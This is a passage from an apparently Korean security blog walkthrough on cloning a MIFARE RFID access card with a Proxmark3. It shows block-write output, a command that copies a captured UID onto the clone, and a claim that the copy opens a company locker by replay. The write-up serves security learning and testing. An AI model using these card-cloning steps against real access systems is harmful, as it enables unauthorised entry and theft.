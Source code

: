 ```c
isOk:01          
Writing to block  56: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  57: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  58: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  59: ff ff ff ff ff ff ff 07 80 69 ff ff ff ff ff ff           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  60: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  61: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  62: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
#db# WRITE BLOCK FINISHED                 
isOk:01          
Writing to block  63: ff ff ff ff ff ff ff 07 80 69 ff ff ff ff ff ff           
#db# WRITE BLOCK FINISHED                 
isOk:01
```

3-9) 이전에 확인한 UID(75271739)를 이용해 uid도 같이 수정해준다.

```c
proxmark3> hf mf csetuid 75271739
--wipe card:NO  uid:75 27 17 39           
old block 0:  93 bd f2 0c d0 08 04 00 62 63 64 65 66 67 68 69           
new block 0:  75 27 17 39 7c 08 04 00 62 63 64 65 66 67 68 69           
old UID:93 bd f2 0c           
new UID:75 27 17 39
```

![/assets/images/%EB%B3%B4%EC%95%88%EA%B2%BD%EB%B9%84%20-%20RFID(Proxmark)%205590f76922bc4ddb910f87908659c755/Untitled%2015.png](/assets/images/%EB%B3%B4%EC%95%88%EA%B2%BD%EB%B9%84%20-%20RFID(Proxmark)%205590f76922bc4ddb910f87908659c755/Untitled%2015.png)

3-10) 복사된 카드를 통해 replay attack이 정상적으로 동작해 사내의 사물함을 열 수 있다.
